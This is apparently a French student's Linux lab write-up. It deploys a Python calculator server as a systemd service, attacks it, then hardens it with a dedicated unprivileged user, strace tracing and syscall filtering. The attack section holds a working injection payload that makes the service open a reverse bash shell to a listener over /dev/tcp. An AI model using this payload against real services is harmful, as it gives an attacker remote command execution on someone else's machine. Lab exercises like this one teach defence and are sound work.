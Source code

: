 🌞 **Téléchargez l'app Python dans votre VM**

```
[antmrlt@vbox ~]$ sudo curl -o /opt/calc.py https://gitlab.com/it4lik/b3e-linux-2024/-/raw/main/tp/2/calc.py?inline=false
```

🌞 **Lancer l'application dans votre VM**

```
PS C:\Users\antoi> ncat 192.168.254.4 13337

Hello3+3
6
```

## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```ini
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```bash
sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

```
[antmrlt@vbox ~]$ systemctl status calculatrice
○ calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: inactive (dead)
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- démarrage de l'application avec `sudo systemctl start calculatrice`
- vous pouvez vous connecter depuis votre PC
- l'affichage de l'application est disponible dans les logs : `journalctl -xe -u calculatrice`

🌞 **Hack l'application**

Attaquant
```
PS C:\Users\antoi> ncat -lvp 4242
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 192.168.254.4:50486.
```

Vicime

```
PS C:\Users\antoi> ncat 192.168.254.4 13337

Hello __import__('os').system('bash -i >& /dev/tcp/192.168.254.1/4242 0>&1')
```

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```
[antmrlt@vbox ~]$ ps -aux | grep calc.py
root        1682  0.0  0.4  10892  8576 ?        Ss   15:59   0:00 /usr/bin/python3 /opt/calc.py
```

🌞 **Créer l'utilisateur `calculatrice`**

```
sudo useradd -s /sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```
[antmrlt@vbox ~]$ sudo chown calculatrice:calculatrice /opt/calc.py
[antmrlt@vbox ~]$ ls -l /opt/calc.py
-rw-r--r--. 1 calculatrice calculatrice 780 Feb 19 15:14 /opt/calc.py
```

🌞 **Modifier le `.service`**

```
[antmrlt@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
User=calculatrice
[antmrlt@vbox ~]$ sudo systemctl daemon-reload
[antmrlt@vbox ~]$ sudo systemctl start calculatrice
```

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```
[antmrlt@vbox ~]$ ps -aux | grep calc.py
calcula+    1906  0.1  0.4  10828  8192 ?        Ss   16:17   0:00 /usr/bin/python3 /opt/calc.py
```

🌞 **Tracez l'exécution de l'application : normal**

```
[antmrlt@vbox ~]$ strace -c python3 /opt/calc.py
strace: Process 1932 detached
% time     seconds  usecs/call     calls    errors syscall
------ ----------- ----------- --------- --------- ----------------
  0.00    0.000000           0        66           read
  0.00    0.000000           0        52           close
  0.00    0.000000           0        79           fstat
  0.00    0.000000           0        61         3 lseek
  0.00    0.000000           0        48           mmap
  0.00    0.000000           0        10           mprotect
  0.00    0.000000           0         1           munmap
  0.00    0.000000           0        11           brk
  0.00    0.000000           0        65           rt_sigaction
  0.00    0.000000           0        32        26 ioctl
  0.00    0.000000           0         4           pread64
  0.00    0.000000           0         1         1 access
  0.00    0.000000           0         3           dup
  0.00    0.000000           0         1           socket
  0.00    0.000000           0         1           bind
  0.00    0.000000           0         1           listen
  0.00    0.000000           0         1           getsockname
  0.00    0.000000           0         1           setsockopt
  0.00    0.000000           0         1           execve
  0.00    0.000000           0         3           fcntl
  0.00    0.000000           0         5         4 readlink
  0.00    0.000000           0         1           sysinfo
  0.00    0.000000           0         1           getuid
  0.00    0.000000           0         1           getgid
  0.00    0.000000           0         1           geteuid
  0.00    0.000000           0         1           getegid
  0.00    0.000000           0         2         1 arch_prctl
  0.00    0.000000           0         1           futex
  0.00    0.000000           0        18           getdents64
  0.00    0.000000           0         1           set_tid_address
  0.00    0.000000           0        53         5 openat
  0.00    0.000000           0       151        20 newfstatat
  0.00    0.000000           0         1           set_robust_list
  0.00    0.000000           0         1           accept4
  0.00    0.000000           0         1           epoll_create1
  0.00    0.000000           0         1           prlimit64
  0.00    0.000000           0         2           getrandom
  0.00    0.000000           0         1           rseq
------ ----------- ----------- --------- --------- ----------------
100.00    0.000000           0       685        60 total
```

🌞 **Tracez l'exécution de l'application : hack**

- idem, mais pendant que vous exploitez la vulnérabilité
- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?

🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`
- vérifiez que l'exploitation est devenue plus compliquée

